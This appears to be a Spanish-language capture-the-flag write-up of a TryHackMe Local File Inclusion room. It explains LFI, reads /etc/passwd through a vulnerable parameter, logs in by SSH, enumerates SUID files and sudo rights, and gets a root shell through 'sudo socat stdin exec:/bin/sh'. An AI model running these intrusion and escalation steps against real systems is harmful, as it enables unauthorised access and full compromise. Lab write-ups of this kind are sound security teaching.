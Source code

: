 ```yaml
---
title: "tryhackme: LFI"
share: false
excerpt: "El mejor metodo de aprendizaje es practicando"
share: false
header:
  teaser:  /assets/images/lfi/logo.png
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - LFI
  - Local File Inclusion
---
```


# Local File Inclusion

Esta técnica consiste en incluir ficheros locales, es decir, archivos que se encuentran en el mismo servidor de la web con 
este tipo de fallo (a diferencia de Remote File Inclusión *RFI* que incluye archivos alojados en otros servidores). 

Esto se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar 
funciones en PHP para incluir archivos.

### una definicion un poco menos tecnica

El ataque de inclusión de archivos locales es el que utiliza el que puede incluir cualquier archivo local, es decir, todos los 
archivos que están presentes en el servidor si el permiso es correcto en el archivo. 

## ¿Qué peligro representa esto si solo se incluyen ficheros que estén en el mismo servidor?

Un atacante podría modificar los parámetros de lo que se incluye, por ejemplo, podría indicarle al 
sitio web que se incluyan otros archivos que también están en el servidor, comprometiendo la seguridad del mismo por completo.

El archivo más común en Unix que podemor verificar es */etc/passwd*, tal ruta, es el archivo de contraseñas en sistemas linux

### vamos a la practica

al visitar la ruta http://10.10.194.21, para este caso es la de nuestra maquina

lo primero que vemos es una pagina de inicio, vemos un poco de teoria sobre *LFI* y *RFI*

![pagina de inicio](/assets/images/lfi/home.png)

ahora vamos ver un articulo 

![url aritulo](/assets/images/lfi/url.png)

vemos la url y probamos, la idea es visualizar el archivo de contraseñas de linux

![passwd lfi](/assets/images/lfi/passwd.png)


## Encontramos un usuario y contraseña, nos conectamos por SSH y buscamos las banderas

```bash
ssh falconfeast@10.10.194.21
falconfeast@10.10.194.21's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 16 00:54:02 IST 2021

  System load:  0.02              Processes:           85
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 68%               IP address for eth0: 10.10.194.21
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Tue Nov 16 00:52:53 2021 from 10.9.4.214
falconfeast@inclusion:~$ 
```

encontramos la _flag_ y la leemos

```bash
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
6x9xxx5x1x8xx7x4x7x9
```
ahora buscamos obtener privilegios *root*

```bash
falconfeast@inclusion:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/bin/fusermount
/bin/umount
/bin/ping
/bin/mount
/bin/su

falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
- el comando *sudo -l* lo que hace es, enumerar los privilegios del usuario o verifica un mando

vemos que podemos usar *socat* para elevar privilegios ![aqui](https://gtfobins.github.io/gtfobins/socat/) podemos leer un poco
respecto a ello



```bash
falconfeast@inclusion:~$ sudo /usr/bin/socat stdin exec:/bin/sh
script /dev/null -c bash
Script started, file is /dev/null
root@inclusion:~# whoami
root
```
ejecutamos *script /dev/null -c bash* y luego *CTRL + Z* para regresar a la _shell_

```bash
root@inclusion:/root# cat root.txt
xx96x1x4x4x4x5x5x9xx
```
listo, somos usuario *root* y tenemos la _flag_
